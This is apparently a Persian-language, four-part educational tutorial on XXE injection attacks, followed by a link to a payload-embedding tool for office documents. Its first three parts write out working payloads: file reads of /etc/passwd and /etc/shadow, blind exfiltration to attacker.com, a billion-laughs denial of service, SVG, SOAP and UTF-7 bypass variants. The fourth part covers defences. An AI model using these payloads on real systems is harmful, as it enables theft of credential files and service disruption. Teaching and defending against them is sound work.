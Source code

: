 📌 حملات XXE (تزریق XML) - بخش اول  

🔹حمله XXE چیست؟  
حملۀ XXE (XML External Entity Injection) یک آسیب‌پذیری امنیتی در پردازش داده‌های XML است که به مهاجم اجازه می‌دهد به فایل‌های سیستم سرور دسترسی پیدا کند یا با سیستم‌های backend تعامل داشته باشد. در برخی موارد، این آسیب‌پذیری می‌تواند منجر به حمله‌های جعل درخواست سمت سرور (SSRF) یا حتی اختلال در سرویس (DoS) شود.  

🔹 انواع حملات XXE   
1. استخراج فایل‌ها (مثلاً خواندن /etc/passwd)  
2. حملات SSRF (ارسال درخواست به سیستم‌های داخلی)  
3. انتقال داده‌ها به صورت خارج از باند (OOB)  
4. استخراج داده از طریق پیام‌های خطا  

🔹 مثال ساده از XXE:  
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
در این مثال، مهاجم محتوای فایل /etc/passwd را می‌خواند.  

📌 حملات XXE (تزریق XML) - بخش دوم  

🔹 حملات پیشرفته XXE  

 1. حملات Blind XXE (انتقال داده به صورت خارج از باند)  
در برخی موارد، برنامه پاسخ مستقیمی نشان نمی‌دهد، اما مهاجم می‌تواند داده‌ها را به یک سرور تحت کنترل خود منتقل کند.  

مثال:  
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "file:///etc/passwd">
  <!ENTITY blind SYSTEM "http://attacker.com/?%xxe;">
]>
<foo>&blind;</foo>
در این حالت، محتوای /etc/passwd به سرور مهاجم ارسال می‌شود.  

2. دور زدن کنترل‌های دسترسی (PHP Example)  
با استفاده از فیلترهای PHP، می‌توان فایل‌های محدودشده را خواند:  
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/shadow">
]>
<foo>&ac;</foo>
(در این مثال، فایل /etc/shadow به صورت base64 کدگذاری و خوانده می‌شود.)  

 3. حملات DoS با XXE 
بعضی از payloadهای XXE می‌توانند باعث مصرف بیش از حد منابع سرور شوند:  
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  ...
]>
<lolz>&lol9;</lolz>
این حمله باعث ایجاد حجم زیادی از داده‌های تکراری و crash سرور می‌شود.  

📌 حملات XXE (تزریق XML) - بخش سوم  

🔹 حملات پیشرفته XXE (ادامه)  

4. استفاده از XXE در فایل‌های SVG (حملات از طریق تصاویر)  
فایل‌های SVG مبتنی بر XML هستند و می‌توانند حاوی payloadهای XXE باشند:  
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" height="200">
    <image xlink:href="expect://id"></image>
</svg>
اگر سایتی آپلود SVG را بدون فیلتر کردن اجازه دهد، این payload می‌تواند دستورات سیستم را اجرا کند.  

5. استفاده از XXE در پروتکل SOAP (سرویس‌های وب)  
در APIهای SOAP-based نیز می‌توان از XXE سوءاستفاده کرد:  
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://attacker.com/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
این payload درخواستی به سرور مهاجم ارسال می‌کند.  

6. استفاده از کدگذاری UTF-7 برای دور زدن فیلترها  
بعضی سیستم‌ها فقط UTF-8 را پردازش می‌کنند، اما با UTF-7 می‌توان برخی فیلترها را دور زد:  
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hacker.com/+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4

🔹 جمع‌بندی بخش سوم  
- درون SVGها می‌توانند حاوی XXE باشند.  
-حتی APIهای SOAP نیز در معرض خطرند.  
- با تغییر کدگذاری (مثل UTF-7) می‌توان برخی فیلترها را دور زد.  

ادامه در بخش چهارم (پیشگیری و دفاع)...

📌 حملات XXE (تزریق XML) - بخش چهارم (پایانی)  

🔹 روش‌های پیشگیری و دفاع در برابر XXE  

1. غیرفعال کردن پردازش موجودیت‌های خارجی (External Entities)  
در اکثر پردازشگرهای XML (مثل PHP, Java, .NET)، می‌توان این ویژگی را غیرفعال کرد:  

مثال در PHP:  
libxml_disable_entity_loader(true);

مثال در Python (lxml):  
parser = etree.XMLParser(resolve_entities=False)

2. استفاده از Whitelisting برای ورودی‌های XML  
- فقط اجازه‌دهید المان‌ها و attributeهای مورد اعتماد پردازش شوند.  
- از اسکیماهای معتبر (XSD) برای اعتبارسنجی ساختار XML استفاده کنید.  

3. فیلتر کردن محتوای خطرناک  
- بلوک کردن <!DOCTYPE و <!ENTITY در ورودی کاربر.  
- مسدود کردن پروتکل‌های خطرناک مثل file://, php://, expect://.  

4. به‌روزرسانی کتابخانه‌های پردازش XML  
بسیاری از آسیب‌پذیری‌های XXE در نسخه‌های قدیمی کتابخانه‌ها (مثل libxml2) وجود دارند.  

5. استفاده از فرمت‌های جایگزین (JSON به جای XML)  
در بسیاری از موارد، استفاده از JSON به جای XML می‌تواند خطر XXE را حذف کند.  

🔹 نتیجه‌گیری  
حملات XXE می‌توانند منجر به خواندن فایل‌های حساس، حملات SSRF و حتی اختلال در سرویس (DoS) شوند. با غیرفعال کردن موجودیت‌های خارجی و اعتبارسنجی دقیق ورودی‌ها، می‌توان از این حملات جلوگیری کرد.  

✅ امن‌تر کدنویسی کنید! ✅  

✍️نویسنده 
@TryHackBox | The Chaos

#XXE #Prevention #CyberSecurity


===================================

ابزار docem ابزاری است که برای گنجاندن Payloadهای XXE  و XSS در قالب‌های سندی مانند docx, odt, pptx, xlsx استفاده می‌شود. این فرمت‌های سند در واقع فایل‌های ZIP حاوی فایل‌های XML هستند؛ به همین دلیل امکان تزریق این نوع حملات وجود دارد.

https://github.com/whitel1st/docem

=====================================
